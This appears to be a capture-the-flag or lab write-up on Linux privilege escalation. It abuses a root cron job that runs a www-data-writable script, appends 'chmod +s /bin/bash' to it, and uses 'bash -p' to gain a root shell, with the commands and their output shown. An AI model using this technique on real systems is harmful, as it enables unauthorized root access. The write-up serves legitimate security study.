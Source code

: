 ------------------
# Privilege Escalation
------------------

##### Cronjobs
- We read `/etc/crontab`
```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
--> */5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh <--
```
- We found that `/var/www/html/finally.sh` is being run on the background
- Read the script contents
```bash
#!/bin/sh

./write.sh
```
- The script itself run another script, we read `/var/www/html/write.sh` contents
```bash
#!/bin/sh

touch /tmp/gateway
```
- Checking `/var/www/html/write.sh` permission, shown that we owned this file(www-data) and have write permission on this file. So we be able to overwrite the contents of this script and put something else malicious, such as reverse shell
- In this case, we will just overwrite the scripts, to give SUID perm on `/bin/bash`, so we can just get root shell locally
- Run `echo "chmod +s /bin/bash" >> /var/www/html/write.sh`
- We wait for a min, then recheck `/bin/bash` perm: `ls -la /bin/bash`
```bash
-rwsr-sr-x 1 root root 1234376 Feb 24  2021 /bin/bash
```
- Now we be able to get root shell `/bin/bash -p` (you can use [https://gtfobins.github.io/](https://gtfobins.github.io/) as reference)
```bash
www-data@sar:/$ /bin/bash -p
bash-5.1# id
uid=33(www-data) gid=33(www-data) groups=33(www-data) euid=0(root) egid=0(root) groups=0(root)
bash-5.1# whoami
root
bash-5.1#
```
